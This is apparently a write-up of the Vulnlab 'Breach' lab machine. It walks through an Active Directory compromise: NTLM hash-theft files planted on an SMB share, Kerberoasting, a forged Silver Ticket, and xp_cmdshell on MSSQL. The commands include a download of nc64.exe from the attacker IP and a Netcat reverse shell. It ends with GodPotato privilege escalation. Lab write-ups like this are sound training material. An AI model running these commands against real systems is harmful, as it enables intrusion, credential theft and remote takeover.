


| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Breach       | Medium     | 01/01/2025   | 01/01/2025     |
*Vulnlab.com* 

---

**Learning Points:**  

- Enumerating SMB shares using `guest` as the username and checking when nothing can be retrieved from the null session, where both the username and password are left blank.  
- Learned about the **URL file attack** to capture user hashes using [ntlm_theft](https://github.com/Greenwolf/ntlm_theft).  
- **Silver Ticket Attack** and gaining a foothold.  
- Discovered a new attack chain involving the use of a high-privileged forged **Silver Ticket** to access MSSQL, enable **xp_cmdshell**, and gain command execution.  
- Abusing **SeImpersonatePrivilege** using  [GodPotato-NET4](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20) when [JuicyPotato](https://github.com/ohpe/juicy-potato) gets detected.


---

Attack Path : 

- Perform an Nmap scan to identify open ports and services.  
- Use `smbclient` with the username `guest` to list available shares and identify one named `share` with read and write permissions.  
- Upload NTLMv2 hash theft files generated using the `ntlm_theft` tool to the share directory.  
- Activate Responder to capture NTLMv2 hashes.  
- Crack the captured NTLMv2 hash of the user `Julia.Wong` using Hashcat.  
- Log in to the MSSQL service using the credentials with the `-windows-auth` tag.  
- Analyze the Active Directory network graph using `bloodhound-python`.  
- Identify that the `SVC_MSSQL` user is Kerberoastable.  
- Perform a Kerberoasting attack to request and crack the ticket for the `SVC_MSSQL` user.  
- Retrieve the Domain SID and SPN from the Kerberoast attack.  
- Use Impacket’s `ticketer` to forge a Silver Ticket.  
- Export the Silver Ticket to gain access to the MSSQL server.  
- Enable `xp_cmdshell` to achieve command execution.  
- Transfer the `nc64.exe` binary and execute a reverse shell.  
- Confirm `SeImpersonatePrivilege` is enabled using `whoami /priv`.  
- Transfer and execute `GodPotato-NET4` to escalate privileges to `NT AUTHORITY\SYSTEM`.  

---

Activity Log:
- Performed an Nmap scan.
- Added the domains to the host file.
- Used CrackMapExec to check available shares accessible via a null session but received `STATUS_ACCESS_DENIED`.
- Also attempted to access shares using `smbclient` but failed.
- Used `guest` as the username and successfully listed shares. Discovered a share named `share` with read and write permissions.
- Found some directories in the `share`, but encountered permission errors when trying to access them.
- Researched and identified an attack method called [URL File Attack](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack) to retrieve hashes of users interacting with our malicious file.
- Tried different templates from the link, but none worked.
- Discovered a tool named [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) to generate multiple types of NTLMv2 hash theft files.
- Uploaded the files to the transfer directory using the `mput *` command with `RECURSE ON` and `PROMPT OFF` options via `smbclient`.
- Activated Responder with all listeners open. After some time, captured the NTLMv2 hash of the user `Julia.Wong`.
- Cracked the hash using Hashcat in autodetect mode.
- Verified the credentials of `Julia.Wong` using CrackMapExec.
- Attempted to log in to the MSSQL service using the credentials but initially failed.
- Successfully connected to the service using the `-windows-auth` tag.
- Attempted to enable the `xp_cmdshell` option, but the user lacked permission to set advanced options.
- Used `bloodhound-python` with DNS Chef and generated an AD network graph for analysis.
- Analyzed the graph and identified that the user `SVC_MSSQL` is Kerberoastable.
- Also noted that the `SVC_MSSQL` user has `WriteDacl` permissions to the `Administrators` group in the domain.
- Launched a Kerberoasting attack to request the ticket for the `SVC_MSSQL` user, which was successful.
- Cracked the hash using Hashcat.
- Attempted to log in to MSSQL service and enable the `xp_cmdshell` again, but the `SVC_MSSQL` user also lacked permissions.
- Found hints from writeups to perform a Silver Ticket attack.
- Retrieved the Domain SID using Impacket’s `lookupsid`.
- Converted the plaintext password to NTLM.
- Retrieved the SPN from the Kerberoast attack.
- Used Impacket’s `ticketer` to forge a Silver Ticket on Linux.
- Exported the saved ticket to the environment.
- Used the ticket to gain access to the MSSQL server.
- Enabled the `xp_cmdshell` and achieved command execution as the `breach\svc_mssql` user.
- Attempted a simple PowerShell reverse shell, but it was flagged as malicious by Defender.
- Transferred the `nc64.exe` binary to the machine.
- Executed the command to connect to Netcat.
- Successfully obtained a reverse shell as the `breach\svc_mssql` user.
- We ran the `whoami /priv` command and were able to see that we had `SeImpersonatePrivilege` enabled.
- We tried to transfer [JuicyPotato](https://github.com/ohpe/juicy-potato) to exploit this, but it was detected and automatically deleted by Windows Defender. 
- So, we used a similar tool, [GodPotato-NET4](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20), and were able to get a shell as `NT AUTHORITY\SYSTEM` and retrieve both user and root flags.

---

*Default nmap scan :*
```
# Nmap 7.94SVN scan initiated Wed Jan  1 10:50:41 2025 as: nmap -sC -sV -oA default 10.10.105.149
Nmap scan report for 10.10.105.149
Host is up (0.31s latency).
Not shown: 992 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-01T05:17:20
|_Not valid after:  2055-01-01T05:17:20
| ms-sql-info: 
|   10.10.105.149:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.105.149:1433: 
|     Target_Name: BREACH
|     NetBIOS_Domain_Name: BREACH
|     NetBIOS_Computer_Name: BREACHDC
|     DNS_Domain_Name: breach.vl
|     DNS_Computer_Name: BREACHDC.breach.vl
|     DNS_Tree_Name: breach.vl
|_    Product_Version: 10.0.20348
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BREACH
|   NetBIOS_Domain_Name: BREACH
|   NetBIOS_Computer_Name: BREACHDC
|   DNS_Domain_Name: breach.vl
|   DNS_Computer_Name: BREACHDC.breach.vl
|   DNS_Tree_Name: breach.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-01T05:21:45+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2025-01-01T05:21:46
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  1 10:54:31 2025 -- 1 IP address (1 host up) scanned in 230.33 seconds
```

We used **CrackMapExec** to check the available shares we could access using a null session, but received the status `STATUS_ACCESS_DENIED`.


We also used **smbclient**, but failed to access the shares.


We used `guest` as the username and were able to list the shares. We found a share named `share` with read and write permissions, while the `Users` share had read access.


We found some directories in the `share` but were not able to access them due to permission errors.

*Enumerating `share` smb share :*


*Enumerating `Users` smb share :*


After researching, we were able to find an attack called the [URL File attack](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack) that can be used to retrieve hashes of users who interact with our malicious file.

*Template 1 :*
```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Breach]
└─$ cat @shortcut.url     
[InternetShortcut]
URL=\\10.8.4.157\share\test.ico
```

This template didn't work for us.



*Template 2 :*
```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Breach]
└─$ cat @notevil.scf            
[Shell]
Command=2
IconFile=\\10.8.4.157\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```

This template also didn't work for us :


We found a new tool named [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) that can generate multiple types of NTLMv2 hash theft files.

*Usage example :*
```
python3 ntlm_theft.py -g all -s <kali ip> -f Important
```


We uploaded the files to the transfer directory using the `mput *` command with `RECURSE ON` and `PROMPT OFF` commands in **smbclient**. We also turned on Responder with all listeners open, and after some time, we obtained the NTLMv2 hash of the user `Julia.Wong`.


>*I couldn't get the hash to the local Falcon Responder (probably because the internet was slow). After turning on Responder on Marvel (cloud Kali), I got the hash immediately, even before uploading from the cloud to the SMB server, as it was already there.

We cracked the hash using Hashcat's autodetect mode.


```
Julia.Wong:Computer1
```

We confirmed that our credentials were working using **CrackMapExec**.


We tried using **Evil-WinRM** to access the machine with the credentials but failed.


We tried to log in to the MSSQL service using the credentials but failed.


Using the `-windows-auth` tag, we were able to connect to the service.


We tried to enable the `xp_cmdshell` option, but our user didn't have permission to set advanced options.


---

#### Bloodhound Enumeration

We used **bloodhound-python** with **DNSChef** and obtained the graph of the AD network for analysis.


While analyzing the graph, we noted that the user `SVC_MSSQL` is Kerberoastable.


It was also noted that the `SVC_MSSQL` user has `WriteDACL` permission on the `Administrators` group in the domain.


We launched a Kerberoasting attack to request the ticket for the user `svc_mssql` and were successful.

```
impacket-GetUserSPNs -dc-ip 10.10.113.42 BREACH.VL/Julia.Wong -request-user svc_mssql
```


We were able to crack the hash using Hashcat.


```
svc_mssql:Trustno1
```

We tried to log in to **mssqlclient** to access the MSSQL service and enable the `xp_cmdshell` again, but this user also didn't have permission to enable the shell.


---

#### Silver Ticket Attack (Foothold)

While reviewing a few write-ups, we got the hint to forge a Silver Ticket attack.

>_A Silver Ticket Attack is when an attacker forges authentication tickets in Microsoft’s Active Directory system, allowing them unauthorized access to network resources without legitimate credentials. It’s a type of cyber-attack exploiting weaknesses in the Kerberos authentication protocol._

In order to perform a silver ticket attack we require the following:

- Domain SID
- User NTLM hash
- User SPN

We got the Domain SID from impacket’s lookupsid:

```
impacket-lookupsid breach.vl/svc_mssql:'Trustno1'@breach.vl
```

```
[*] Domain SID is: S-1-5-21-2330692793-3312915120-706255856
```


We converted the plaintext password to NTLM using a browser-based tool.

```
69596C7AA1E8DAEE17F8E78870E25A5C
```


And lastly, for the SPN we retrieved it from the kerberoast attack.


```
ServicePrincipalName : MSSQLSvc/breachdc.breach.vl:1433
```

To create the Silver Ticket, we used **impacket-ticketer**. *Remember to choose Administrator as the user.*

```
impacket-ticketer -nthash '69596C7AA1E8DAEE17F8E78870E25A5C' -domain-sid 'S-1-5-21-2330692793-3312915120-706255856' -domain breach.vl -spn 'MSSQLSvc/breach.vl:1433' -user-id 500 Administrator
```


We then exported the saved ticket.

```
export KRB5CCNAME=Administrator.ccache
```

We then used the ticket to gain access to the MSSQL server, enabled the `xp_cmdshell`, and gained command execution as the `breach\svc_mssql` user.

```
impacket-mssqlclient -k -no-pass breach.vl -windows-auth
```


```
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

Trying to execute a simple PowerShell reverse shell failed as Defender flagged it as malicious.


We transferred the `nc64.exe` binary to the machine.

```
xp_cmdshell powershell -c "wget -usebasicparsing http://10.8.4.157:8888/nc64.exe -o C:\Windows\Temp\nc64.exe"
```

We executed the command to connect to Netcat.

```
xp_cmdshell powershell -c "C:\Windows\Temp\nc64.exe -e cmd 10.8.4.157 1234"
```

After that, we got the reverse shell as `breach\svc_mssql`.


---

#### Privilege Escalation 

We ran the `whoami /priv` command and were able to see that we had `SeImpersonatePrivilege` enabled.


We tried to transfer [JuicyPotato](https://github.com/ohpe/juicy-potato) to exploit this, but it was detected and automatically deleted by Windows Defender. So, we used a similar tool, [GodPotato-NET4](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20), and were able to get a shell as `NT AUTHORITY\SYSTEM` and retrieve both user and root flags.


---